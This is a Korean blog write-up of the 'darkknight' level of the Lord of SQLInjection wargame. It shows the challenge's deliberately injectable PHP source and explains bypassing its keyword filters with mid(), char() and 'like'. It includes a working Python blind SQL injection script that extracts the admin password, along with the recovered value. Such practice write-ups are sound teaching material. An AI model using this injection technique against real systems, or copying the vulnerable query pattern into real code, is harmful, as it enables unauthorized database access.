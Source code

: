 ```yaml
---
layout: post
title: ! "[LOS] darkknight"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - darknight
  - write-up
---
```


### https://los.eagle-jump.org/ 버전
![](/assets/posts/los/darkknight.png)

`query : select id from prob_darkknight where id='guest' and pw='' and no=`

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

darknight 문제는 substr, ascii가 필터링 된다.
기존 코드를 좀 수정해서

1. substr -> mid
2. ascii -> char

이렇게 바꿔주었다.

admin을 char함수로 표현하려면 `char(97,100,109,105,110)` 이 된다.

1. left : 문자의 왼쪽을 기준으로 일정 갯수를 가져온다.
2. mid : 문자의 지정한 시작 위치를 기준으로 일정 갯수를 가져온다.
3. right : 문자의 오른쪽을 기준으로 일정 갯수를 가져온다.

처음에 코드가 잘 안돌아갔는데 기존 코드는 string.ascii_letters를 이용해서 `for a in alpha` 이런식으로 돌게 했는데
이번 코드는 48부터 128까지 범위를 주고 `char(str(a))` 로 바꿔주었다.
출력을 할 때도 파이썬의 chr함수를 사용해 `chr(a)` 이렇게 출력해주었다.

### 코드
```php
from requests import get
import string
from time import sleep

url="https://los.eagle-jump.org/darkknight_~~~.php"
cookies = dict(PHPSESSID="세션 아이디")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1&no=1 || length(pw) like "+str(i)
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is "+str(i))
        break
for i in range(1, length):
    for a in range(48,128):
        parameter ="?pw=1&no=1 || id like char(97,100,109,105,110) %26%26 mid(pw,"+str(i)+",1) like char("+str(a)+")"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> "+chr(a))
            result += chr(a)
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is"+result)
        print("\n")
```

![](/assets/posts/los/darkknight_result.png)

결과대로 `1C62BA6F` 를 `?pw=1C62BA6F` 를 입력했는데 안돼서 뭐지..? 했는데
소문자로 바꿔서 입력하니 풀렸다.

![](/assets/posts/los/darkknight_clear.png)


### https://los.rubiya.kr 버전
![](/assets/posts/los/darkknight_py_result.png)

![](/assets/posts/los/darkknight_py_clear.png)
